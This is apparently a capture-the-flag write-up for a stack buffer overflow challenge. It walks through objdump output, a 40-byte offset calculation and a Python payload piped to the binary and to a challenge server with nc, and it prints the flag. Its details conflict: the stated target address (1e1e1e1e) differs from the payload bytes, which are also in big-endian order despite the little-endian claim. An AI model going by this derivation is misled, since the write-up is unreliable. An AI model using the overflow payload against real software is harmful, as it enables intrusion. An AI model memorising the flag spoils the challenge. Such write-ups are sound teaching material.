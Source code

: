 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

*Created - Noans*

## Distribution
- AwesomeParty `1da2366a0e70a9a5158b4606e96c1c4ad5cbb8c9`
	- Compiled from `generate.c` in generate folder using `cc generate.c -fno-stack-protector -Wl,--section-start=.special=0x1a1b1c1d`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
4005c6:	55                   	push   %rbp
4005c7:	48 89 e5             	mov    %rsp,%rbp
4005ca:	48 83 ec 20          	sub    $0x20,%rsp
4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
4005d2:	48 89 c6             	mov    %rax,%rsi
4005d5:	bf 78 06 40 00       	mov    $0x400678,%edi
4005da:	b8 00 00 00 00       	mov    $0x0,%eax
4005df:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>
4005e4:	bf 7b 06 40 00       	mov    $0x40067b,%edi
4005e9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>
4005ee:	90                   	nop
4005ef:	c9                   	leaveq
4005f0:	c3                   	retq
```
3. The third line tells us 32 bytes is reserved for a variable.
4. Derive that one needs to override 32 bytes + rbp (8 bytes) to overwrite return address.
5. Also derive address of `awesome` function is `1e1e1e1e`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1a\x1b\x1c\x1d"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1a\x1b\x1c\x1d"' | nc pwn.chal.gryphonctf.com 18153`

### Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64